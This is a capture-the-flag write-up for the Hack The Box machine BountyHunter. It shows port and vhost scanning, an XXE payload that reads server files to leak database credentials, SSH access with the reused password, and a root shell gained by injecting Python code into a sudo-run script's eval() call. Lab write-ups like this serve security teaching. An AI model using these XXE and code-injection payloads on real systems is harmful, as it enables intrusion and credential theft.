# HTB BountyHunter Write-Up

## Initial Enumeration

I began by running a comprehensive port scan to identify all open services on the target:

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.95.166 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.95.166 -oN nmap
```

The scan revealed only two open ports:
- **22/tcp**: OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
- **80/tcp**: Apache httpd 2.4.41

I added `bountyhunter.htb` to my `/etc/hosts` file.

## Subdomain and Vhost Enumeration

I attempted to enumerate subdomains:

```bash
ffuf -u http://FUZZ.bountyhunter.htb -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

I also checked for virtual hosts:

```bash
ffuf -u http://10.129.95.166 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.bountyhunter.htb" -fs 11439
```

Neither yielded any results.

## Web Enumeration

I navigated to the website:



The site appeared to be a bug bounty platform. I discovered a `/resources` directory:



Inside, I found a README.txt file:



The README mentioned a portal and provided some hints about the application structure.

I found a `/portal.php` page:



And a `/log_submit.php` page:



## JavaScript Analysis

I examined the JavaScript file at `/resources/bountylog.js`:



The JavaScript revealed an interesting endpoint: `/tracker_diRbPr00f314.php`

## Discovering the Tracker Endpoint

I accessed the tracker endpoint:



The page reflected input in the response. I intercepted the request and found that it sends an encoded Base64 XML payload in the POST data parameter:



## XXE Vulnerability
I tested for XML External Entity (XXE) injection.



Encode base64:



Encode to URL and sent it:



The application was vulnerable to XXE. 

I crafted a payload to read sensitive files:

```xml
<!DOCTYPE email [
<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

I wanted to read /var/www/html/db.php.


Then URL-encoded it and sent the request.

The response contained Base64-encoded source code:



After decoding, I found database credentials:



**Username: admin**  
**Password: m19RoAU0hP41A1sTsq6K**

## SSH Access

From `/etc/passwd`, I identified a user named `development`. I attempted to use the discovered password for SSH:

```bash
ssh development@10.129.95.166
```

Password: **m19RoAU0hP41A1sTsq6K**

I successfully logged in as the development user.

## Initial Foothold

In the `/home/development` directory, I found a contract.txt file:



## Privilege Escalation Enumeration

I ran LinPEAS to enumerate the system for privilege escalation vectors:

**System Information:**
- OS: Linux 5.4.0-80-generic (Ubuntu 20.04)
- User: uid=1000(development) gid=1000(development)
- Hostname: bountyhunter
- Sudo version: 1.8.31

I checked my sudo privileges:

```bash
sudo -l
```



I could run `/opt/skytrain_inc/ticketValidator.py` as sudo without a password.

## Analyzing the Ticket Validator

I examined the Python script:



In the `evaluate()` function, I found a dangerous line:
```python
validationNumber = eval(x.replace("**", ""))
```

The script uses `eval()` on user-controlled input, which is a critical vulnerability.

## Understanding the Validation Logic

The script expects a ticket format with specific requirements:

1. First line must start with `# Skytrain Inc`
2. Second line must start with `## Ticket to `
3. There must be a line starting with `__Ticket Code:__`
4. The line after the ticket code must start with `**`
5. The text after `**` until the first `+` must be an integer that when divided by 7 has a remainder of 4

If all conditions are met, the line (with `**` removed) is passed to `eval()`.

## Crafting the Exploit

I created a malicious ticket file called `exploit.md`:

```
# Skytrain Inc
## Ticket to Anywhere
__Ticket Code:__
**11+__import__('os').system('/bin/bash')
```

The number `11` satisfies the modulo condition (11 % 7 = 4), and the rest injects a shell command.

## Privilege Escalation

I ran the ticket validator with sudo, using my malicious ticket:

```bash
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

When prompted, I pasted the content of my exploit.md file. The `eval()` function executed my injected command, spawning a root shell.




